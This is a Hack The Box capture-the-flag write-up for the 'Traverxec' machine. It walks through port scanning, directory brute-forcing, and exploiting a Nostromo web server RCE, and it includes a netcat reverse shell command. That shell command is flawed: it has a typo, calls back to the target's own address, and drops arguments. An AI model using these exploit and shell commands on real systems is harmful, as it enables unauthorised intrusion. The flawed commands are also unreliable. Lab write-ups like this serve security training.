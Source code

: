 ```yaml
---
title: "Traverxec"
subtitle: Hack The Box
date: 2020-08-24
related_image: '/images/traverxec/traverxec_bio.png'
share-img: '/images/traverxec/traverxec_bio.png'
published: true
categories: write-ups
author_profile: true
tags:
  - Writeup
  - kali
  
---
```


# Overview

Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user's home directory reveals that the user can execute `journalctl` as root, which is exploited to spawn a `root` shell!

# Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.165 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.165
```

![Initial NMAP](/images/traverxec/nmap.png)

Once the scan completes, it reveals ports 22 and 80 are open. NMAP also reports that the `http-server-header` is `nostromo 1.9.6`, which indicates the box is running the `Nostromo` HTTP server.

# Nostromo

![Nostromo](/images/traverxec/nostromo.png)

The webpage appears to be pretty empty, resulting in very little information at first look. So, we fire off a gobuster:

```bash
gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -n
```

While we let gobuster run in the background, I look to Google. After a bit of digging, we find that Nostromo version 1.9.6 has a [Remote Code Execution](https://www.exploit-db.com/exploits/47837) vulnerability. Being that this exploit is found on Exploit-DB, that usually means there is a Metasploit module for it - which means we can "manually" exploit it or use Metasploit. I'll show both ways.

1. "Manual" exploitation.

First, we need to copy the exploit from exploit-db and inspect it:

```bash
searchsploit -m /multiple/remote/47837
```
---

![Exploit](/images/traverxec/payload.png)

### The heck is going on?

Interesting. We're exploiting the `http_verify` function in nostromo nhttpd. Which is allowing us remote code execution. Let's test it out:

```bash
python 47837.py 10.10.10.165 80 id
```

Ok, cool, we got a response. Lets setup a listener and try to get a shell:

```bash
nc -lvnp 9001
```

```bash
pythin 47837.py "nc -e bash 10.10.10.165 9001"
```

And........ We get a shell


# Metasploit


